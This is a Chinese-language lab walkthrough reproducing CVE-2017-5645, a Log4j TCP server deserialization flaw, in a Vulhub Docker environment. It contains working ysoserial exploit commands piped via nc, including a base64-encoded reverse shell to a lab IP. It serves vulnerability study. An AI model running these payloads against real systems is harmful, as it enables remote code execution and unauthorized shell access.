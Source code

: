 # Apache Log4j Server 反序列化命令执行漏洞 CVE-2017-5645

## 漏洞描述

Apache Log4j是一个用于Java的日志记录库，其支持启动远程日志服务器。Apache Log4j 2.8.2之前的2.x版本中存在安全漏洞。攻击者可利用该漏洞执行任意代码。

## 环境搭建

Vulhub执行如下命令启动漏洞环境

```
docker-compose up -d
```

环境启动后，将在4712端口开启一个TCPServer。

说一下，除了使用vulhub的docker镜像搭建环境外，我们下载了log4j的jar文件后可以直接在命令行启动这个TCPServer：`java -cp "log4j-api-2.8.1.jar:log4j-core-2.8.1.jar:jcommander-1.72.jar" org.apache.logging.log4j.core.net.server.TcpSocketServer`，无需使用vulhub和编写代码。

## 漏洞复现

我们使用ysoserial生成payload，然后直接发送给`your-ip:4712`端口即可。

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 "touch /tmp/success" | nc your-ip 4712
```

然后执行`docker-compose exec log4j bash`进入容器，可见 /tmp/success 已成功创建：

![image-20220226211513715](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202262115772.png)

执行[反弹shell的命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功弹回shell：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 "bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTc0LjEyOC85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}" | nc your-ip 4712
```

![image-20220226211802491](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202262118589.png)

